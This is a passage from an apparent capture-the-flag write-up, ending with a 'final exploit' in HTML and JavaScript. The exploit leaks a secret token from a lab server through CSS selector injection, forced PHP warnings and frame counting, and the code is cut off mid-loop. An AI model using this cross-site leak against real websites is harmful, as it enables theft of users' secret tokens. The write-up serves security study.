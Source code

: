```javascript

// Check the prefix of a token
const result = await match("TOKEN_123");
```

## Putting It All Together

The final exploit looks like this:
```html
<body>
  <script type="module">
    const BASE_URL = "http://web:3000";

    const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms));

    const TOKEN_SIZE = 16;

    let known = "TOKEN_";
    const win = open("");

    const CHARS = [..."0123456789abcdef"];

    const match = async (pattern) => {
      win.location = "about:blank";
      while (true) {
        try {
          win.origin;
          break;
        } catch {
          await sleep(3);
        }
      }

      const content = `
        <link href="/not-found.txt?{}div:has(input:valid){display:none}" rel=stylesheet>
        <div>
          <embed code="x" type=text/html>
          <input pattern=".+${pattern}.+" value="
      `;
      const url = `${BASE_URL}?content=${encodeURIComponent(
        content
      )}${"&a".repeat(1000)}`; // PHP warnings

      win.location = url;
      while (true) {
        try {
          win.origin;
          await sleep(3);
        } catch {
          break;
        }
      }
      await sleep(100);

      return win.length === 0; // frame counting
    };

    for (let i = 0; i < TOKEN_SIZE; i++) {
      // binary search
      let left = 0;
      let right = CHARS.length;
      while (right - left > 1) {
        const mid = (right + left) >> 1;
```